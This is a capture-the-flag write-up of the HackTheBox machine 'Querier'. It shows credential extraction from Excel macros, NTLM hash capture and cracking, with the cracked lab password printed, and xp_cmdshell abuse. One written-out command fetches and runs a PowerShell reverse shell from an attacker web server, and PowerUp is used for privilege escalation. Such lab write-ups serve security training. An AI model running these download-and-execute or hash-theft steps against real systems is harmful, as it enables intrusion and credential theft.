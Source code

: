 ```yaml
---
title: Querier
date: 2023-01-10 14:00
categories: [htb]
tags: [Windows,MSSQL,Outdated Software,Weak Credentials,Password Cracking,Powershell,Hash Capture]
---
```


 Querier is a medium level machine on HacktheBox that starts with discovering database credentials in the macros of a xlsm file on a network share. We can then login to the database as a low privelege user, and send the database service hash to our listener on responder using a nice trick from hacktricks. We crack the hash and login to the database with new credentials, which lets us enable xp_cmdshell and execute commands on the box. We finally escalate priveleges with the print spoofer exploit.

### Enumeration

Results of nmap show

```bash
Host is up (0.051s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ssl-date: 2023-01-10T20:04:25+00:00; 0s from scanner time.
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-01-10T20:01:25
|_Not valid after:  2053-01-10T20:01:25
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-01-10T20:04:21
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.63 seconds
```

We can use SMBmap with no username to see if we have anonymous access and list the shares.

![list](/assets/img/querier/list.png)

Reports is non-standard on Windows, meaning some body made this share. Let's check it out.

![reports](/assets/img/querier/reports.png)

We can download this Currency Volume Reports file and see if it gives us any info.

![macros](/assets/img/querier/macros.png)

Right off the bat we are hit with a blank file and a security warning that the document contains macros. Checking the macros reveals a  "connect" function, which contains credentials for a service account.

![creds](/assets/img/querier/creds.png)

### Foothold

Login to the mssql service on port 1433 with the credentials,and remember to use the -windows-auth flag.

![lowpriv](/assets/img/querier/lowpriv.png)

We can see that the credentials are valid for the database, however we don't have the privileges required to execute commands, and there's nothing else that we can see here that's interesting. Let's check out a trick from Hacktricks. If we set up a SMB server using responder or impacket, we can potentially steal the netNTLM hash of the database.

![hash](/assets/img/querier/hash.png)

Cracking this hash gives us the credentials mssql-svc:corporate568 , which we can use to login to the database again to see if we have more privileges this time around.

![cmdshell](/assets/img/querier/cmdshell.png)

We are able to execute commands as the service account now. Let's get a reverse shell and enumerate the box. We host the Nishang powershell reverse shell on a web server and download it from the victim machine using `xp_cmdshell echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.9/rev.ps1") | powershell -noprofile` and our web server gets a hit from the box, and then we get a hit on our netcat listener.

![rev](/assets/img/querier/rev.png)

### Priv Esc

we can upload PowerUp.ps1 in the same way and run `Invoke-AllChecks`

![gpp](/assets/img/querier/gpp.png)

Which gives admin credentials that were located in the C:\Windows\Panther\Unattend.xml file

![system](/assets/img/querier/system.png)

Using these credentials in psexec gives us a system shell.

Let's check another way we can root this box.

